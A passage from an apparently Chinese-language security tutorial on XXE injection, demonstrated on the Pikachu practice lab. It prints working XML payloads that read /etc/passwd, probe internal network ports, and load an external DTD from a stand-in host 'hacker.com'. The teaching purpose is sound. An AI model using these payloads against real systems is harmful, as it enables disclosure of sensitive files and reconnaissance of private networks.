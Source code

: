xxe.dtd 内容如下：

```
<!ENTITY evil SYSTEM "file:///etc/passwd">
```

上面先声明 xxe 参数实体，引入外部实体 "http://hacker.com/evil.dtd"，里面声明了一个叫 evil 的实体，用于读取 /etc/passwd 文件，最后在通过 &evil; 来引用执行。  
在不同的语言中其支持协议还不一样，需要根据业务场景来实测，常见的协议有 file、http、ftp、https、except 等等。

### 危害：XXE 的常见攻击手段

下面介绍一些 XXE 漏洞的常见利用方法，并提供一些 payload 测试用例，测试仍以 Pikachu XXE 题目作为演示。

#### 1.内网攻击

XXE 支持 http 等 URL，所以同样可以产生与 SSRF 一样效果，对内网进行指纹探测、端口扫描、漏洞攻击等行为。

比如以下的 payload：

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://192.168.31.124:4444/test">
]>
<x>&xxe;</x></r>
```

由于不存在该端口，所以会出错误：

![图片1.png](https://s0.lgstatic.com/i/image/M00/8E/F5/CgqCHmAGWcqAO_PgAASscDOp6uA731.png)

图 1 探测内网端口失败

成功的话，会返回空白，通过这种对比差异，可以判断是否利用成功：

![图片2.png](https://s0.lgstatic.com/i/image2/M01/06/D6/Cip5yGAGWdyAQDS2AANXkfuguok138.png)

图 2 探测内网端口成功

#### 2.读取本地文件

通过 file:// 可以读取本地文件，造成敏感文件泄露：

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<x>&xxe;</x>
```

输入上述 XML 提交后，成功读取到 /etc/passwd 文件内容：

![Drawing 2.png](https://s0.lgstatic.com/i/image2/M01/05/7B/CgpVE2AABv6AfyHcAAGL6fVMVng679.png)

图 3 利用XXE漏洞读取 /etc/passwd
